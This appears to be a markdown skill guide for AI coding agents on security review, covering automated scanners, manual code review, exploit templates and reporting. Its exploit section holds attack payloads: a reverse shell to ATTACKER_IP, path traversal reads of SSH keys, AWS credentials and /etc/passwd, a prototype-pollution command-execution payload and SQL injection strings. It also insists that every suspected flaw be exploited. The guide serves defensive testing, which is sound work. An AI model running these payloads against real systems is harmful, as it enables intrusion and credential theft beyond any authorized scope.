

# Security Review & Exploit Development

## Overview

Systematic security review using automated tools AND manual analysis, with working proof-of-concept exploits for every finding. **No vulnerability is confirmed until exploited.**

## The Iron Law

```
NO FINDING WITHOUT A WORKING EXPLOIT
```

Suspecting a vulnerability is worthless. You must prove exploitation.

## Workflow



## Phase 1: Automated Scanning

**Run ALL applicable tools.** Don't skip tools because "manual review is enough."

### Static Analysis (SAST)

```bash
# Opengrep - Multi-language SAST (preferred over semgrep)
opengrep scan --config=auto --config=p/security-audit --config=p/owasp-top-ten .

# Bandit - Python security linter
bandit -r . -f json -o bandit-report.json

# ast-grep - Custom pattern matching (write rules for project-specific issues)
ast-grep scan --rule security-rules/

# ESLint security plugin (JS/TS)
npx eslint --plugin security --rule 'security/detect-child-process: error' .

# Gosec - Go security checker
gosec -fmt=json -out=gosec-report.json ./...
```

### Dependency Scanning (SCA)

```bash
# Trivy - Comprehensive vulnerability scanner
trivy fs --scanners vuln,secret,misconfig .

# Grype - Fast vulnerability scanner
grype dir:. -o json > grype-report.json

# pip-audit - Python dependencies
pip-audit --format=json -o pip-audit.json

# npm audit - Node.js dependencies
npm audit --json > npm-audit.json

# govulncheck - Go dependencies
govulncheck ./...
```

### Secret Detection

```bash
# Gitleaks - Find secrets in git history
gitleaks detect --source . --report-path gitleaks-report.json

# Trufflehog - Deep secret scanning
trufflehog filesystem . --json > trufflehog-report.json
```

### Container/Infrastructure

```bash
# Trivy for containers
trivy image --severity HIGH,CRITICAL <image-name>

# Checkov for IaC
checkov -d . --framework terraform,kubernetes,dockerfile
```

## Phase 2: Manual Code Review

Focus on these vulnerability categories in order of severity:

### Critical: Injection Vulnerabilities

| Type | Pattern to Find | Grep Command |
|------|-----------------|--------------|
| Command Injection | `exec`, `spawn`, `system`, `eval` | `grep -rn "exec\|spawn\|system\|eval\|Function(" --include="*.ts" --include="*.js"` |
| SQL Injection | String concatenation in queries | `grep -rn "query.*\+" --include="*.ts"` |
| Path Traversal | `readFile`, `resolve` without validation | `grep -rn "readFileSync\|readFile\|resolve" --include="*.ts"` |
| Template Injection | User input in templates | `grep -rn "render\|template" --include="*.ts"` |

### High: Authentication/Authorization

| Type | Pattern to Find |
|------|-----------------|
| Missing auth checks | Routes without middleware |
| Hardcoded credentials | `password`, `secret`, `key` in code |
| Weak crypto | `md5`, `sha1`, `Math.random` |

### Medium: Data Exposure

| Type | Pattern to Find |
|------|-----------------|
| Sensitive data in logs | `console.log`, `logger` with user data |
| Error message leakage | Full stack traces returned to client |
| Insecure storage | Credentials in config files |

## Phase 3: Exploit Development

**Every vulnerability MUST have a working exploit.**

### Command Injection Exploit Template

```typescript
// exploit-cmd-injection.ts
import { execSync } from 'child_process'

const VULNERABLE_ENDPOINT = 'http://localhost:3000/api/diff'

// Test payloads - escalate from detection to impact
const payloads = [
  // Detection: Does injection work?
  { input: '$(echo VULNERABLE)', detect: 'VULNERABLE' },

  // Information gathering
  { input: '$(whoami)', detect: /\w+/ },
  { input: '$(id)', detect: /uid=/ },

  // File read
  { input: '$(cat /etc/passwd)', detect: 'root:' },

  // Reverse shell (for authorized pentests only)
  { input: '$(bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1)', detect: null },
]

async function exploit() {
  for (const { input, detect } of payloads) {
    const response = await fetch(VULNERABLE_ENDPOINT, {
      method: 'POST',
      body: JSON.stringify({ files: [input] }),
    })
    const result = await response.text()

    if (detect && result.match(detect)) {
      console.log(`[+] Payload worked: ${input}`)
      console.log(`[+] Output: ${result}`)
    }
  }
}
```

### Path Traversal Exploit Template

```typescript
// exploit-path-traversal.ts
const traversalPayloads = [
  '../../../etc/passwd',
  '....//....//....//etc/passwd',
  '/etc/passwd',
  '/proc/self/environ',  // Leaks environment variables
  '/home/user/.ssh/id_rsa',
  '/home/user/.aws/credentials',
]

async function exploitPathTraversal(endpoint: string) {
  for (const payload of traversalPayloads) {
    const response = await fetch(endpoint, {
      method: 'POST',
      body: JSON.stringify({ files: [payload] }),
    })
    const result = await response.text()

    if (result.includes('root:') || result.includes('AWS_')) {
      console.log(`[+] Path traversal successful: ${payload}`)
      return result
    }
  }
}
```

### Dependency Exploit Template

```typescript
// exploit-dependency.ts
// When a vulnerable dependency is found, search for:
// 1. Public exploits: searchsploit, exploit-db, GitHub
// 2. CVE details for exploitation steps

// Example: Exploiting known prototype pollution
const payload = {
  "__proto__": { "admin": true }
}

// Example: Exploiting known RCE in library
const rcePayload = {
  "constructor": {
    "prototype": {
      "outputFunctionName": "x;process.mainModule.require('child_process').execSync('id');x"
    }
  }
}
```

### SQL Injection Exploit Template

```typescript
// exploit-sqli.ts
const sqlPayloads = [
  // Detection
  "' OR '1'='1",
  "1; SELECT 1--",

  // Union-based extraction
  "' UNION SELECT username,password FROM users--",

  // Time-based blind
  "'; WAITFOR DELAY '0:0:5'--",
  "' AND SLEEP(5)--",

  // Error-based extraction
  "' AND 1=CONVERT(int,(SELECT TOP 1 table_name FROM information_schema.tables))--",
]
```

## Phase 4: Severity Classification

| Severity | Criteria | Examples |
|----------|----------|----------|
| **Critical** | RCE, full system compromise, auth bypass | Command injection, SQL injection with admin access |
| **High** | Significant data breach, privilege escalation | Path traversal to sensitive files, IDOR |
| **Medium** | Limited data exposure, DoS | Error message leakage, resource exhaustion |
| **Low** | Minor information disclosure | Version disclosure, missing headers |

## Report Template

```markdown
## Finding: [Vulnerability Name]

**Severity:** Critical/High/Medium/Low
**Location:** `file.ts:42`
**CWE:** CWE-XXX

### Description
[What is the vulnerability and why it's dangerous]

### Vulnerable Code
```typescript
// The vulnerable code snippet
```

### Proof of Concept

```bash
# Command to exploit
curl -X POST http://target/api -d '{"payload": "$(id)"}'
```

**Result:**
```
uid=1000(user) gid=1000(user) groups=1000(user)
```

### Impact
- What an attacker can achieve
- Data at risk
- Business impact

### Remediation
```typescript
// Fixed code
```

### References
- CVE-XXXX-XXXXX
- OWASP reference
```

## Tool Installation

```bash
# Install all security tools
pip install opengrep bandit pip-audit
npm install -g eslint eslint-plugin-security
go install github.com/securego/gosec/v2/cmd/gosec@latest
go install golang.org/x/vuln/cmd/govulncheck@latest

# Trivy
brew install trivy  # macOS
# or: curl -sfL https://raw.githubusercontent.com/aquasecurity/trivy/main/contrib/install.sh | sh

# Grype
brew install grype  # macOS
# or: curl -sSfL https://raw.githubusercontent.com/anchore/grype/main/install.sh | sh

# Gitleaks
brew install gitleaks  # macOS
# or: go install github.com/gitleaks/gitleaks/v8@latest

# ast-grep
npm install -g @ast-grep/cli
```

## Red Flags - STOP

If you find yourself thinking:
- "This looks suspicious but I'll note it without testing" - **STOP. Write exploit first.**
- "Manual review is enough, tools are overkill" - **STOP. Run the tools.**
- "The exploit is obvious, I don't need to verify" - **STOP. Execute and prove it.**
- "I'll skip dependency scanning, code review covers it" - **STOP. Run SCA tools.**

## Quick Reference

| Tool | Purpose | Command |
|------|---------|---------|
| opengrep | SAST multi-language | `opengrep scan --config=auto .` |
| bandit | Python SAST | `bandit -r .` |
| trivy | Vuln + secrets | `trivy fs .` |
| grype | Dependency vulns | `grype dir:.` |
| gitleaks | Secret detection | `gitleaks detect --source .` |
| govulncheck | Go dependencies | `govulncheck ./...` |
| pip-audit | Python deps | `pip-audit` |
| npm audit | Node deps | `npm audit` |
| ast-grep | Custom patterns | `ast-grep scan` |
